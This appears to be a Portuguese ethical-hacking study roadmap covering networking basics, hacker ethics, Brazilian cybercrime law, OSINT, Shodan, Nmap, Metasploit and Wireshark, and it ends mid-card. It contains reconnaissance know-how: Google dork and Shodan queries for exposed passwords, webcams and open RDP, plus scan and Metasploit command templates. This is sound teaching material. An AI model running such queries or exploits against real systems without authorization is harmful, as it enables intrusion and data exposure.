







Roteiro de estudo + labs
Estude na ordem abaixo e pratique em laboratórios autorizados (TryHackMe, Hack The Box, etc.) — nunca em sistemas de terceiros sem permissão. Marque os conceitos como estudados nas abas dos níveis para acompanhar seu progresso.
🧠 Fundamentos & Linux
🔍 OSINT & Recon
🛠️ O arsenal
⚔️ Exploração
🛡️ Detecção & resposta
🔐 Pentest & Red Team
🚩 Treine com CTFs
Redes — A Base Técnica
Antes de atacar ou defender, é preciso entender como a internet conversa. Esses são os fundamentos que aparecem em tudo: recon, Nmap, sniffing, firewall. Cada card tem um link de vídeo explicando.
📡 Endereço IP 🆕
📖 Aprender a fundo
Explicação completa
O IP (Internet Protocol) é como o endereço da sua casa, mas na rede: identifica de forma única um dispositivo para que os dados cheguem ao lugar certo.
- Público: visível na internet, fornecido pelo seu provedor (é o IP do seu roteador).
- Privado: usado dentro da sua rede local (ex.:
192.168.0.10). - Fixo × dinâmico: pode mudar a cada conexão (dinâmico, via DHCP) ou ser fixo.
dig +short, ou pesquise "meu ip".🔢 IPv4 vs IPv6 🆕
📖 Aprender a fundo
Explicação completa
O IPv4 usa 4 números de 0 a 255 (ex.: 192.168.0.1) e tem ~4,3 bilhões de endereços — que acabaram. O IPv6 foi criado para resolver isso, com um formato bem maior em hexadecimal (ex.: 2001:0db8::1) e uma quantidade praticamente infinita de endereços.
| IPv4 | IPv6 | |
|---|---|---|
| Exemplo | 192.168.0.1 | 2001:0db8:85a3::8a2e |
| Tamanho | 32 bits | 128 bits |
| Endereços | ~4,3 bilhões | ~340 undecilhões |
📶 Roteador 🆕
📖 Aprender a fundo
Explicação completa
O roteador "roteia" (direciona) os pacotes entre a sua rede local e a internet. Em casa, ele normalmente acumula vários papéis: faz NAT (compartilha 1 IP público entre vários aparelhos), é o Wi-Fi e tem um firewall básico.
192.168.0.1 ou 192.168.1.1. Troque a senha padrão (admin/admin) e o nome/senha do Wi-Fi — roteador com senha de fábrica é porta aberta.🧭 DNS 🆕
📖 Aprender a fundo
Explicação completa
Você digita banco.com.br; o DNS resolve isso para o IP do servidor (ex.: 200.x.x.x) e o navegador conecta. É como perguntar "qual o número do Fulano?" antes de ligar.
- Registros: A (IPv4), AAAA (IPv6), MX (e-mail), TXT (SPF/verificações), NS (servidores).
- Consulte com
dig/nslookup(estão no Gerador).
🚪 Portas 🆕
📖 Aprender a fundo
Explicação completa
Se o IP é o endereço do prédio, a porta é o número do apartamento: diz para qual serviço os dados vão. Existem 65.535 portas.
Portas conhecidas
- 80 HTTP · 443 HTTPS · 22 SSH · 21 FTP
- 53 DNS · 25 SMTP (e-mail) · 3389 RDP (área de trabalho Windows)
📦 Pacote de dados 🆕
📖 Aprender a fundo
Explicação completa
Um arquivo não viaja inteiro: ele é dividido em pacotes. Cada pacote leva um cabeçalho (IP de origem/destino, porta) + um pedaço dos dados. Eles viajam por caminhos diferentes e são remontados no destino.
🔀 TCP / UDP 🆕
📖 Aprender a fundo
Explicação completa
| 🔒 TCP | ⚡ UDP |
|---|---|
| Confiável: confirma a entrega (handshake) | Rápido: não confirma, pode perder pacote |
| Web, e-mail, download | Streaming, jogos, chamadas, DNS |

🏷️ Endereço MAC 🆕
📖 Aprender a fundo
Explicação completa
O MAC (ex.: 00:1A:2B:3C:4D:5E) vem gravado no hardware da placa de rede e funciona na rede local (camada 2). Diferença para o IP:
- MAC: físico, "de fábrica", local. IP: lógico, pode mudar, funciona na internet toda.
- Pode ser falsificado (MAC spoofing) para burlar filtros de Wi-Fi.
🔁 NAT & Gateway 🆕
📖 Aprender a fundo
Explicação completa
O NAT (Network Address Translation) deixa vários dispositivos com IP privado (192.168.x) usarem um único IP público — por isso a internet "vê" o IP do seu roteador, não o do seu PC.
O gateway padrão é o endereço para onde o dispositivo manda tudo que vai "pra fora" — em casa, é o roteador.
🌐 LAN / WAN / Wi-Fi 🆕
📖 Aprender a fundo
Explicação completa
- LAN (Local Area Network): rede local — sua casa, um escritório.
- WAN (Wide Area Network): rede ampla que liga várias LANs — a internet é a maior WAN.
- Wi-Fi: uma LAN sem fio (ondas de rádio). Conveniente, mas exige cuidado (senha forte WPA2/WPA3).
Nível 1 — Mentalidade & Fundamentos
⚪ White Hat ✅
📖 Aprender a fundo
Explicação completa
O White Hat ("chapéu branco") é o hacker ético: usa exatamente as mesmas técnicas de um criminoso, mas com autorização por escrito e o objetivo de encontrar e corrigir falhas antes que os bandidos as explorem. A metáfora dos "chapéus" vem dos faroestes antigos, onde o mocinho usava chapéu branco e o bandido, preto.
Os três chapéus — a diferença é a AUTORIZAÇÃO
| Tipo | Tem permissão? | Intenção | É crime? |
|---|---|---|---|
| ⚪ White Hat | Sim, contratado | Proteger / corrigir | Não |
| 🟡 Gray Hat | Não, mas avisa depois | Geralmente boa | Sim (mesmo "ajudando") |
| 🔴 Black Hat | Não | Roubar / destruir / lucrar | Sim |
Como começar nessa carreira
- Fundamentos de redes (TCP/IP, HTTP, DNS) e Linux.
- Plataformas práticas: TryHackMe e Hack The Box (laboratórios legais e autorizados).
- Certificações que abrem portas: CompTIA Security+, depois eJPT/OSCP.
- Programas de Bug Bounty para ganhar (legalmente) achando falhas reais.
🔴 Black Hat ✅
📖 Aprender a fundo
Explicação completa
O Black Hat ("chapéu preto") é o hacker criminoso: invade sem autorização para roubar dados, aplicar golpes, extorquir (ransomware), espionar ou destruir. A motivação costuma ser dinheiro, mas também ideologia, vingança ou status.
Por que estudá-lo
- Para defender, você precisa pensar como ele (mentalidade ofensiva).
- Entender as motivações ajuda a prever alvos e métodos.
- Mostra a linha que nunca se cruza: a mesma técnica vira crime sem autorização.
🟡 Gray Hat ✅
📖 Aprender a fundo
Explicação completa
O Gray Hat ("chapéu cinza") fica na zona cinzenta: invade sem permissão (como um black hat), mas sem intenção maliciosa — geralmente para "ajudar" e depois avisa o dono da falha. O problema: continua ilegal, porque faltou autorização.
O dilema
- Achou uma falha sem permissão? Reportar pode te expor legalmente.
- Alguns "gray hats" pedem recompensa depois — o que beira a extorsão.
- O caminho certo é o bug bounty e a divulgação responsável dentro de programas autorizados.
👤 Hacker 🆕
📖 Aprender a fundo
Explicação completa
Na origem, hacker não significa criminoso: é alguém que entende sistemas profundamente e os modifica de formas criativas. A mídia popularizou o termo como "invasor", mas na cultura técnica ser hacker é uma mentalidade — curiosidade, engenhosidade e vontade de saber como tudo funciona por dentro.
Termos que se confundem
- Hacker: especialista que explora e modifica sistemas.
- Cracker: o que invade com má intenção (= black hat).
- Hacktivista: usa hacking para causas políticas/sociais.
🎓 Hacking Ético 🆕
📖 Aprender a fundo
Explicação completa
Hacking ético é usar técnicas de invasão com autorização e dentro de um escopo definido, para encontrar e corrigir vulnerabilidades antes que criminosos as explorem. É a moldura legal de tudo que esta trilha ensina.
As regras do jogo
- Autorização por escrito (contrato/escopo) — sempre.
- Agir só dentro do escopo combinado (quais sistemas, quais testes).
- Não causar dano e manter sigilo dos dados acessados.
- Entregar um relatório com as falhas e como corrigir.
🧒 Script Kiddie 🆕
📖 Aprender a fundo
Explicação completa
Script kiddie é o termo (meio pejorativo) para quem usa ferramentas e exploits prontos sem entender como funcionam. Copia comandos da internet, roda scripts de terceiros e raramente sabe o que acontece por baixo.
Por que NÃO ser um
- Sem fundamento, você não adapta quando a ferramenta falha.
- Causa estragos sem entender — e deixa rastros que te incriminam.
- Não evolui: o mercado valoriza quem entende o "porquê", não quem decora comando.
🛡️ Cibersegurança 🆕
📖 Aprender a fundo
Explicação completa
Cibersegurança é o conjunto de práticas, tecnologias e processos para proteger sistemas, redes, dispositivos e dados contra acesso, uso ou dano não autorizado. Toda a área gira em torno de proteger três pilares — a famosa tríade CIA:
- Confidencialidade: só quem tem permissão vê o dado (criptografia, controle de acesso). Um vazamento quebra isso.
- Integridade: o dado não foi alterado indevidamente (hash, assinaturas). Um ataque que adultera dados quebra isso.
- Disponibilidade: o sistema está acessível quando precisamos. Um DDoS quebra isso.
A cibersegurança se divide em times: Blue Team (defesa), Red Team (ataque simulado) e Purple Team (os dois colaborando).
🚨 Cibercrime 🆕
📖 Aprender a fundo
Explicação completa
Cibercrime é qualquer crime que envolve computador, rede ou dispositivo conectado — seja como alvo (invasão, ransomware) ou como meio (golpes, fraude, etc.).
Categorias comuns no Brasil
- Golpes financeiros: phishing, falso funcionário do banco, Pix fraudulento.
- Invasão e vazamento de dados (Lei 12.737/2012).
- Ransomware e extorsão.
- Estelionato digital: golpe do WhatsApp, falsos anúncios e lojas.
⚖️ Lei Carolina Dieckmann 🆕
📖 Aprender a fundo
Explicação completa
A Lei 12.737/2012, apelidada de "Lei Carolina Dieckmann" (após o vazamento de fotos da atriz), foi a que tipificou crimes informáticos no Brasil, alterando o Código Penal para punir a invasão de dispositivos.
O que ela criminaliza (resumo)
- Invadir dispositivo alheio para obter, adulterar ou destruir dados — sem autorização.
- Pena maior se houver prejuízo econômico, vazamento ou divulgação dos dados.
- Produzir/distribuir programas para permitir a invasão também é crime.
🕳️ Vulnerabilidade ✅
📖 Aprender a fundo
Explicação completa
Vulnerabilidade é uma fraqueza em um sistema, software, configuração ou processo que pode ser explorada para causar dano. É importante não confundir três termos que andam juntos:
| Termo | O que é | Analogia |
|---|---|---|
| Vulnerabilidade | A fraqueza em si | Uma janela sem tranca |
| Ameaça | Quem/o que pode explorar | O ladrão do bairro |
| Exploit | A técnica/código que explora | O ato de entrar pela janela |
| Risco | Chance × impacto | "Quão provável e quão grave?" |
Exemplos comuns: software desatualizado, senha padrão (admin/admin), configuração errada de servidor, ou um campo de formulário que aceita SQL. Toda vuln conhecida ganha um identificador CVE e uma nota de gravidade CVSS (veja no Nível 6).
Nível 2 — Reconhecimento & OSINT
🌐 OSINT ✅
📖 Aprender a fundo
Explicação completa
OSINT = Open Source Intelligence (Inteligência de Fontes Abertas). É a arte de coletar e cruzar informações públicas — redes sociais, sites, registros de domínio, vazamentos, fotos com metadados, Google — para montar um perfil do alvo. Tudo é legal e sem invadir nada; o "ataque" está em juntar peças que, isoladas, parecem inofensivas.
Passivo × Ativo
| Reconhecimento passivo | Reconhecimento ativo |
|---|---|
| Não toca no alvo (Google, redes sociais, WHOIS) | Interage com o alvo (escanear portas, acessar o site) |
| Indetectável | Pode deixar rastros/logs |
Ferramentas clássicas: Google Dorks, Shodan, WHOIS, haveibeenpwned, theHarvester e Maltego.
🔭 Reconhecimento 🆕
📖 Aprender a fundo
Explicação completa
Reconhecimento (recon) é a primeira fase de qualquer ataque ou pentest: reunir o máximo de informação sobre o alvo antes de agir. Quanto melhor o recon, mais certeiro (e silencioso) é o resto.
Passivo × Ativo
- Passivo: não toca no alvo (Google, redes sociais, WHOIS, vazamentos). Indetectável.
- Ativo: interage com o alvo (ping, scan de portas, acessar o site). Pode gerar logs.
👣 Footprinting 🆕
📖 Aprender a fundo
Explicação completa
Footprinting é o levantamento profundo e organizado do alvo durante o recon: domínios e subdomínios, faixas de IP, servidores de e-mail (MX), tecnologias, funcionários e e-mails. É desenhar o "mapa do terreno".
O que se coleta
- Infra: DNS, IPs, hospedagem, certificados (crt.sh).
- Pessoas: e-mails e cargos (LinkedIn) — base de engenharia social.
- Tecnologia: CMS, frameworks e versões (whatweb/BuiltWith).
🔎 Google Dorks 🆕
📖 Aprender a fundo
Explicação completa
Google Dorks (ou Google Hacking) é o uso de operadores de busca avançados para encontrar exatamente o que está exposto na internet — inclusive coisas que não deviam estar públicas: painéis de login, arquivos de senha, câmeras, documentos internos. Não é invasão: o Google já indexou; você só sabe perguntar direito.
Operadores essenciais (teste agora, sem medo)
site:gov.br # só resultados desse domínio filetype:pdf relatório # só arquivos de um tipo inurl:admin # "admin" na URL (painéis) intitle:"index of" # pastas de arquivos abertas cache:site.com # versão em cache do Google "senha" filetype:xls site:empresa.com
🛰️ Shodan 🆕
📖 Aprender a fundo
Explicação completa
Se o Google indexa páginas, o Shodan indexa dispositivos conectados: servidores, roteadores, câmeras de segurança, semáforos, sistemas industriais (SCADA), geladeiras smart. Ele varre a internet inteira registrando portas abertas e "banners" de serviços. É chamado de "o Google dos hackers" porque revela o que está exposto — muitas vezes com senha padrão ou sem senha alguma.
Buscas típicas
webcam # câmeras expostas port:3389 country:BR # RDP aberto no Brasil product:"Apache" version:2.4 # versão específica "default password" # banners com senha padrão
🌍 WHOIS 🆕
📖 Aprender a fundo
Explicação completa
WHOIS é uma consulta pública que mostra os dados de registro de um domínio: quem registrou, registrador, datas de criação/expiração e servidores DNS. É um dos primeiros passos para investigar um site (inclusive fraudulento).
O que observar
- Data de criação recente + "loja" com super promoção = forte sinal de golpe.
- Registrador e país podem indicar a origem.
- Muitos usam WHOIS privado (proteção de privacidade) — comum e legítimo.
whois exemplo.com ou o botão "🌐 Abrir WHOIS".💧 haveibeenpwned 🆕
📖 Aprender a fundo
Explicação completa
Have I Been Pwned (HIBP) é um serviço gratuito que verifica se o seu e-mail ou telefone apareceu em vazamentos públicos conhecidos. É a forma legítima e defensiva de checar a SUA exposição.
O que fazer se você "vazou"
- Troque a senha do serviço afetado — e de qualquer outro onde reusava ela.
- Ative 2FA em tudo que for importante.
- Use um gerenciador de senhas (senha única por site).
🎭 Engenharia Social ✅
📖 Aprender a fundo
Explicação completa
Engenharia social é "hackear pessoas" em vez de máquinas: manipular alguém psicologicamente para que entregue informação ou faça uma ação que não deveria. É o vetor mais usado no Brasil — golpe do falso funcionário do banco, do falso parente no WhatsApp, do falso suporte técnico. Por que investir em quebrar um firewall se você pode simplesmente pedir a senha de um jeito convincente?
Os gatilhos psicológicos explorados
- Autoridade: "Aqui é o gerente do TI, preciso da sua senha."
- Urgência/medo: "Sua conta será bloqueada agora!"
- Prova social: "Todo mundo do setor já fez isso."
- Reciprocidade: dar um "favor" para criar dívida.
- Curiosidade/ganância: "Você ganhou um prêmio", pendrive "perdido" no estacionamento.
Como se defender
- Desconfie e verifique por outro canal (ligue para o número conhecido).
- Empresa nenhuma pede senha/código por telefone ou mensagem.
- Quanto mais pressa o golpista impõe, mais você deve desacelerar.
📂 Vazamento de Dados 🆕
📖 Aprender a fundo
Explicação completa
Vazamento de dados (data breach) é quando credenciais e informações pessoais escapam de uma empresa e vão parar em fóruns, na dark web ou em bases de busca. É o combustível dos ataques modernos.
Como os criminosos usam
- Credential stuffing: testam e-mail+senha vazados em outros serviços.
- Phishing direcionado com dados reais seus (parece legítimo).
- Fraude e roubo de identidade (CPF, endereço, etc.).
🕸️ Dark Web 🆕
📖 Aprender a fundo
Explicação completa
A dark web é a parte da internet acessível só por redes especiais como o Tor (endereços .onion). O tráfego passa por várias camadas de criptografia para dar anonimato. Abriga desde fóruns legítimos de privacidade até mercados ilegais.

.onion. Imagem: Tga.D, Wikimedia Commons · CC BY-SA 4.0Por que o Blue Team monitora
- Vazamentos e credenciais da empresa costumam ser vendidos lá.
- Threat intel: antecipar ataques observando fóruns de criminosos.
- Sempre em ambiente isolado (VM), Tor oficial, sem comprar/participar de nada ilegal.
🌊 Deep Web 🆕
📖 Aprender a fundo
Explicação completa
A deep web é tudo que os buscadores não indexam: sua caixa de e-mail, internet banking, intranets, bancos de dados, conteúdo atrás de login/paywall. É a maior parte da internet — e é totalmente normal e legal. Você usa todo dia.
Deep web × Dark web (não confunda)
| Deep web | Dark web |
|---|---|
| Não indexado (e-mail, banco) | Só via Tor (.onion) |
| Legal e cotidiano | Anônima; tem áreas ilegais |
📷 Reconhecimento Facial (OSINT) 🆕
📖 Aprender a fundo
Explicação completa
Ferramentas de reconhecimento facial (como FaceCheck/PimEyes) procuram onde a sua foto aparece na internet a partir de uma imagem. No OSINT, servem para detectar perfis falsos que usam a sua imagem — e, do lado ofensivo, para identificar pessoas.
Uso defensivo (o seu caso)
- Descobrir perfis fake usando suas fotos (catfishing, golpe do "amor").
- Ver o quanto a sua imagem está exposta publicamente.
Nível 3 — Ferramentas Essenciais
🗺️ Nmap 🆕
📖 Aprender a fundo
Explicação completa
Nmap (Network Mapper) é o scanner de rede mais usado do mundo. Ele responde às perguntas iniciais de qualquer ataque ou auditoria: quais máquinas estão vivas, quais portas estão abertas, quais serviços e versões rodam nelas? Saber isso é descobrir a "superfície de ataque" — as portas de entrada possíveis.
Como é na vida real (saída de um scan)
$ nmap -sV scanme.nmap.org Starting Nmap ( https://nmap.org ) Nmap scan report for scanme.nmap.org Host is up (0.045s latency). PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 6.6.1 80/tcp open http Apache httpd 2.4.7 443/tcp open https Apache httpd 2.4.7 9929/tcp closed nping-echo Service detection performed. Nmap done.
A versão gráfica: Zenmap

Flags que você vai usar sempre
-sVdetecta a versão dos serviços.-Otenta adivinhar o sistema operacional.-p-escaneia todas as 65535 portas.-sCroda scripts padrão.-T4acelera o scan.-sSfaz um scan "stealth" (SYN).
Comandos para copiar (clique e edite o alvo)
nmap -sV <ALVO>
nmap -p- -T4 <ALVO>
sudo nmap -O <ALVO>
nmap -sV -sC -p- -T4 <ALVO>
scanme.nmap.org (liberado pelos autores) ou em laboratórios como TryHackMe/HTB.💥 Metasploit 🆕
📖 Aprender a fundo
Explicação completa
Metasploit é um framework que organiza milhares de exploits, payloads e ferramentas auxiliares num só lugar, com um fluxo padronizado. Em vez de escrever um exploit do zero, você seleciona um módulo pronto, configura o alvo e dispara. É a "caixa de ferramentas" oficial do pentest ofensivo.
O fluxo básico (msfconsole)
- search — procura um módulo para a vulnerabilidade encontrada.
- use — seleciona o exploit.
- set RHOSTS / set PAYLOAD — define alvo e o que executar (ex:
meterpreter). - exploit — dispara. Se der certo, você ganha uma sessão de controle.
O payload mais famoso é o Meterpreter: um shell avançado que vive na memória e permite navegar arquivos, capturar tela, escalar privilégios e mais.

Comandos para copiar (clique e edite o que falta)
search <termo>
use <modulo>
set RHOSTS <IP_DO_ALVO>
set LHOST <SEU_IP>
set PAYLOAD <payload>
exploit
📚 Exploit-DB 🆕
📖 Aprender a fundo
Explicação completa
O Exploit-DB é uma base pública e enorme de exploits prontos e da Google Hacking Database (GHDB). Depois de descobrir a versão de um serviço (com o Nmap), você procura aqui se já existe um exploit para ela — em vez de escrever do zero.
Fluxo típico
- Nmap revela, ex.:
vsftpd 2.3.4. - Você busca esse software+versão no Exploit-DB (ou
searchsploit vsftpd 2.3.4no Kali). - Se houver, estuda o exploit e testa em alvo autorizado.
searchsploit (está no Gerador). Sempre leia o exploit antes de rodar — código aleatório pode ser malicioso.🦈 Wireshark 🆕
📖 Aprender a fundo
Explicação completa
Wireshark é um analisador de pacotes: ele captura e mostra, em detalhe, tudo que trafega pela rede — cada pacote, seus cabeçalhos e seu conteúdo. É como um raio-X da comunicação. Serve tanto para o atacante (capturar dados sensíveis em rede aberta — sniffing) quanto para o defensor (investigar incidentes, achar tráfego malicioso, fazer perícia).

O que você consegue ver
- Conversas completas (com "Follow TCP Stream" você remonta a sessão inteira).
- Em HTTP (sem TLS): senhas e dados em texto claro — o motivo de o HTTPS existir.
- Filtros poderosos para isolar o que importa (veja abaixo).
Filtros para copiar (cole na barra do Wireshark)
http
ip.addr == <IP>
tcp.port == 443
http.request.method == "POST"
🐉 Kali Linux 🆕
📖 Aprender a fundo
Explicação completa
